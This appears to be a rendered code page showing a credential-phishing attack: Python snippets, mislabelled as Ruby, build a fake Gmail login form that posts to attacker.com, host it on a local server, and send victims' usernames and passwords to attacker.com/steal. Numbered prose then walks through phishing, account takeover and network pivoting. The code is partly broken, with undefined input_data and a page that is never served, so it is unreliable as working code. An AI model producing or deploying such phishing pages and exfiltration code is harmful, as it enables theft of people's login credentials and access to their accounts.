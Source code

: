 ```ruby
    import requests
        fake_page = '''
        <html>
          <head>
            <title>Gmail Login</title>
          </head>
          <body>
            <form method="post" action="http://attacker.com/login">
              <input type="text" name="username" placeholder="Email">
              <input type="password" name="password" placeholder="Password">
              <input type="submit" value="Login">
            </form>
          </body>
        </html>
        '''
```

#### Start a local web server to host the fake page

```ruby
    import http.server
    import socketserver
    
    PORT = 8000
    Handler = http.server.SimpleHTTPRequestHandler
    
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print("Fake login page is available at http://localhost:{}/".format(PORT))
```

#### Wait for a victim to visit the fake login page

```ruby
    httpd.handle_request()
```

#### Extract the victim's credentials and send them to the attacker's server

```ruby
    victim_username = input_data['username']
    victim_password = input_data['password']

    response = requests.post('http://attacker.com/steal', data={'username': victim_username, 'password': victim_password})
  
    print("Credentials for {} have been stolen.".format(victim_username))
```

1. The attacker creates a fake login page or a phishing website that looks identical to a legitimate website where users enter their login credentials.
2. The attacker sends the phishing link to the victim through email or other communication channels, disguising the link as a legitimate one to entice the victim to click on it.
3. The victim clicks on the link and enters their login credentials on the fake login page or phishing website, believing it to be a legitimate website.
4. The phishing website captures the victim's login credentials, which are then sent to the attacker's server.
5. The attacker can use the stolen credentials to access the victim's accounts and perform unauthorized activities, such as stealing sensitive information or transferring funds.
6. In some cases, the attacker can also use the stolen credentials to pivot to other systems on the victim's network, using them as a foothold for further attacks.
7. The attacker can remain undetected for a long time, as they can use the stolen credentials to log in as the victim and perform actions that appear legitimate.
